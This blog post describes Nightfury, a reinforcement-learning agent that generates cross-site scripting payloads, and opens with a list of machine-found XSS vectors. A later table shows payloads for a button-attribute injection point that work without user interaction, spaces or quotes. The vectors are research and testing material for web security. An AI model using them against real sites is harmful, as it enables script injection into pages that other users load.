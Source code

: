 ```yaml
---
layout: post
title: "Teaching XSS to a machine"
categories: Hacks
tags: hacks
image: "https://web.stanford.edu/group/pdplab/pdphandbook/suttonbarto_rl.png"
---
```


Even before we start anything, just have a glance at few interesting vectors that were dreamt by a machine learning agent which has structural
knowledge of HTML. Few vectors require user interaction also. I tried to add comments about what I think is special about few of those.

``` html
<body onblur=x onload=popup=1;>
<body onerror=popup=1;><svg/onfocus=import>  <!-- When the svg is clicked, the js fails and body onerror is triggered. WOW!! -->
<body onload=popup=1;>
<body rel='popup=1;'onerror=popup=1; onload=x >
<button autofocus=x onchange='import'onfocus=popup=1; >
<button data=popup=1; id='x'onfocus=popup=1; >
<button onclick=popup=1;>
<canvas onclick="popup=1;">
<embed onfocus='popup=1;'><img
<form formaction=popup=1; onclick=popup=1;><object>  <!-- Involves a click on object -->
<form href='x'onclick=popup=1;><select>
<frameset id="x"onload=popup=1;>
<frameset onload=popup=1;>
<iframe onload=popup=1;>
<img srcset=popup=1; onerror=popup=1;>
<input onclick=popup=1; >
<input onfocus=popup=1; autofocus="x">
<input srcset=x href=x onclick=popup=1; >
<link rel=import href=data:text/html;base64,PHNjcmlwdD5wb3B1cD0xOzwvc2NyaXB0Pg==>  <!-- This is awesome -->
<object onfocus=popup=1;>
<select onclick="popup=1;">
<select onclick=popup=1;>
<source onclick=popup=1; ><frameset/onload=popup=1;>  <!-- Interesting as, agent was trying to find vector with no user interaction and only two allowed spaces in input -->
<svg onclick=popup=1;>
<svg onload=popup=1;>
<video onclick=popup=1;>
```

### Introduction

Let's talk about XSS first. How are you successful in creating a payload for demoing/exploiting a Cross Site Scripting vulnerability? It depends on your
ability to understand the HTML markup and inject a javascript statement in an executional context. If you think about it, your most basic payload starts from
``<script>alert(1);</script>`` to ``<img src=x onerror='alert()'>``.

### Reinforcement Learning

A branch of machine learning in which an agent learns optimum actions for different scenarios based on it's past experiences. A more elegant way of explaining
RL is taken from [here](http://www.cse.unsw.edu.au/~cs9417ml/RL1/introduction.html)

An RL agent learns by interacting with its environment and observing the results of these interactions. This mimics the fundamental way in which
humans (and animals alike) learn. As humans, we have a direct sensori-motor connection to our environment, meaning we can perform actions and witness
the results of these actions on the environment. The idea is commonly known as "cause and effect", and this undoubtedly is the key to building up
knowledge of our environment throughout our lifetime. The "cause and effect" idea can be translated into the following steps for an RL agent:

+ The agent observes an input state
+ An action is determined by a decision making function (policy)
+ The action is performed
+ The agent receives a scalar reward or reinforcement from the environment
+ Information about the reward given for that state / action pair is recorded

By performing actions, and obersving the resulting reward, the policy used to determine the best action for a state can be fine-tuned.
Eventually, if enough states are observed an optimal decision policy will be generated and we will have an agent that performs perfectly in
that particular environment.

### Idea

Consider the following markup ``<div class="INJECTION_POINT">``. By a simple look you are aware that inorder to execute an XSS you come out of the
class attribute context and put a payload. A simple vector in the above scenario is ``"><img src=x onerror=alert()>``. This is very trivial because
of your exposure to HTML markup, so I believed that if I can somehow impart the knowledge of html to an RL agent and let it play with it for few hours,
it should be able to provide some simple XSS payloads in different scenarios.

So, for the same scenario above, the RL agent get a state representation like

```
1_tag: div
1_tag_ap: class
context: attr_value
context: class
```

If the above state representation doesn't make any sense, just ignore it. All it does is try to represent the markup. Now, when I tried it against the
agent that I trained, I got the following payload

``` html
<div class=""><button onclick=popup=1;>
```

Not an optimized payload, as a matter of fact this infact requires user interaction. But this is a good starting point.


### Simplifications

You can just give the set of alphabets and control characters (i.e ',",<,> etc.) as actions and the agent will learn valid HTML if you give negative reward
for all non valid markup that it generates. But for the agent to learn html huge training time is required. Similarly, there are other issues which I will not
go into detail but try to explain the simplifications I applied.

+ To speedup the training time, instead of giving just alphabets I gave all the html tags, attributes as actions.
+ Based on the html parsing, html tags are made available only when the context is a tag name etc..
+ Similarly based on the html parsing attributes and their values are made available only when the context needs one of those.

All the simplifications impart the knowledge of structure of html (XML like structure) only.

### Current State

After training for about **3 hours** with **25 html tags** and **25 attribute names**, the agent aquires good level of knowledge. I provided the following injection
sink ``<button INJECTION_POINT``. Based on different restrictions the agent chooses different actions

| Conditions | Payload |
| No restrictions | ``onclick=popup=1;>`` |
| No user interaction | ``><svg onload='popup=1;'>`` |
| No user interaction + No space | ``><iframe/onload='popup=1'>`` |
| No user interaction + No space + No Quotes | ``><iframe/onload=popup=1>`` |
| No user interaction + No 'onload' | ``><input autofocus='x' onfocus=popup=1;>`` |

### Future Work (Planned so far!)

+ Shift to a sparse sampling way to speed up learning.
+ If RlPy is not being suited, shift to [**Theano**](http://deeplearning.net/software/theano/) and use [**Lasagne**](http://lasagne.readthedocs.org/en/latest/)  for neural network to remember the value function.
+ A better state representation of only javascript might be interesting to try out. Why? Because AngularJS has a top notch sandbox to test against!!

I am calling this project as [**Nightfury**](https://github.com/tunnelshade/nightfury) and planning to write a detailed technical blog post on how this has
been achieved so far. The github repo needs some cleanup, but as of now please bear with this!
